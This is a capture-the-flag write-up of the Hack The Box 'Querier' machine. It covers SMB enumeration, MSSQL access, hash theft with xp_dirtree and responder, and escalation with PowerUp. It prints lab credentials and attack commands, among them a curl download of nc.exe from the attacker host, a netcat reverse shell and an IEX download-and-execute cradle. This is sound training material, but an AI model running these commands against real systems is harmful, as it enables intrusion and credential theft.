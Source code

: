 ```yaml
---
title: "Hack The Box - Querier"
tags: [windows,medium,SMB , xslx , xslm , mssql , xp_dirtree , responder , PowerUp.ps1]
categories: HackTheBox-Active-Directory
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled.png)

## NMAP

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%201.png)

## SMB Enumeration

⇒ In Reports SMB Share we find an xlmsm file

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%202.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%203.png)

⇒ We found password in **`xl/vbaProject.bin`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%204.png)

Pwd : **PcwTWTHRwryjc$c6**

User : **Reporting**

→ We were able to login to MSSQL using these credentials

### Exploiting MSSQL :

**mssqlclient.py -windows-auth querier/reporting@10.10.10.125**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%205.png)

⇒ Stealing hash using xp_dirtree and responder :

→ We started responder and ran the following command in MSSQL :

**`xp_dirtree '\\10.10.14.4\enox'`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%206.png)

→ Cracked the hash and got credentials for mssql-svc user :

**mssql-svc : corporate568**

⇒ Logged in MSSQL using this user and enabled xp_cmdshell and popped a shell :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%207.png)

**enable_xp_cmdshell**

**xp_cmdshell "whoami"**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%208.png)

**xp_cmdshell "curl [http://10.10.14.4/nc.exe](http://10.10.14.4/nc.exe) -o C:\Windows\System32\spool\drivers\color\nc.exe"**

**xp_cmdshell "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.4 1234 -e cmd.exe"**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%209.png)

### Privilege Escalation to Root

⇒ We ran PowerUp and got Administrator user credentials :

**`powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.4/PowerUp.ps1');invoke-allchecks"`**

**Administrator : MyUnclesAreMarioAndLuigi!!1!**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Querier%20Box%20c983bcce7c9d413e9676c3814c3b3a89/Untitled%2010.png)

